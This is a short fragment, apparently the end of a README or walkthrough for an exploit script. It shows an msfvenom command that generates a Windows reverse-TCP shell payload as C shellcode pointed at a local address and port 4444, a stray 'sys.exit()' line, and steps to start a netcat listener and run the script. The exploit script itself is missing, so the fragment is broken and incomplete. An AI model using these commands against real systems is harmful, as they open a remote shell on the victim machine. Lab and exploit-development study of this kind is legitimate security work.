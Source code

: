 ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.20.131 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00" ```
        sys.exit()
 ```

* create a netcat lsitner ```nc -nlvp 4444 ```

* run the script

















